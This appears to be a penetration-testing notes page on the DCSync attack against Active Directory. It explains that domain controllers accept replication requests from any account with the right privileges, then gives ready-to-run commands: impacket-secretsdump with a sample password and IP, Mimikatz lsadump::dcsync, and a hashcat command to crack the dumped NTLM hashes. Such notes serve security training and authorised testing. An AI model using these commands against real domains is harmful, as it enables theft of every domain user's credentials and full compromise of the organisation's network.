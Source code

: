# Domain Controller Synchronization

{% hint style="danger" %}
need access to a user that is a member of _Domain Admins_, _Enterprise Admins_, or _Administrators_

* _Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights
{% endhint %}

The [_Directory Replication Service_](https://msdn.microsoft.com/en-us/library/cc228086.aspx) (DRS) Remote Protocol uses [_replication_](https://technet.microsoft.com/en-us/library/cc772726\(v=ws.10\).aspx) to synchronize these redundant domain controllers. A domain controller may request an update for a specific object, like an account, using the [_IDL\_DRSGetNCChanges_](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) API. The domain controller receiving a request for an update does not check whether the request came from a known domain controller. Instead, it only verifies that the associated SID has appropriate privileges. If we attempt to issue a rogue update request to a domain controller from a user with certain rights it will succeed.

By impersonating a domain controller, we can use replication to obtain any domain user credentials from a domain controller.&#x20;

### Linux

&#x20;Perform a dcsync attack to obtain the NTLM hash of _dave:_

{% code overflow="wrap" %}
```sh
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
{% endcode %}

* **-just-dc-user**: target user
* **domain/user:password@ip**

### Windows

Perform a dcsync attack to obtain the credentials of _dave:_

{% code title="Mimikatz" %}
```powershell
lsadump::dcsync /user:corp\dave
```
{% endcode %}

* can perform the dcsync attack to obtain any user password hash in the domain, even the domain administrator _Administrator_

### Hash Cracking

{% code overflow="wrap" %}
```shell
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
